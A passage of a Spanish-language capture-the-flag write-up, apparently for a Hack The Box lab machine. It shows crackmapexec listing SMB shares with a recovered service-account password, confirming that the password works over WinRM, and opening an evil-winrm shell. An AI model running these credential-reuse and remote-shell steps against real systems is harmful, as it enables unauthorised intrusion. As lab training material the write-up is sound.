 Pero como tal no hay un recursos

```bash
❯ crackmapexec smb 10.129.95.241 -u svc-printer -p '1edFg43012!!' --shares
SMB         10.129.95.241   445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.129.95.241   445    PRINTER          [+] Enumerated shares
SMB         10.129.95.241   445    PRINTER          Share           Permissions     Remark
SMB         10.129.95.241   445    PRINTER          -----           -----------     ------
SMB         10.129.95.241   445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.129.95.241   445    PRINTER          C$              READ,WRITE      Default share
SMB         10.129.95.241   445    PRINTER          IPC$            READ            Remote IPC
SMB         10.129.95.241   445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.129.95.241   445    PRINTER          SYSVOL          READ            Logon server share 
```

## Shell as svc-printer

Si verificamos si las credenciales se reutilizan para conectarnos con `evil-winrm` vemos que si 

```bash
❯ crackmapexec winrm 10.129.95.241 -u svc-printer -p '1edFg43012!!'
SMB         10.129.95.241   5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.129.95.241   5985   PRINTER          [*] http://10.129.95.241:5985/wsman
WINRM       10.129.95.241   5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

Ahora nos conectamos y estamos en la maquina victima

```bash
❯ evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::e8
   IPv6 Address. . . . . . . . . . . : dead:beef::f08b:84bd:2540:f169
   Link-local IPv6 Address . . . . . : fe80::f08b:84bd:2540:f169%10
   IPv4 Address. . . . . . . . . . . : 10.129.95.241
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:7437%10
                                       10.129.0.1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
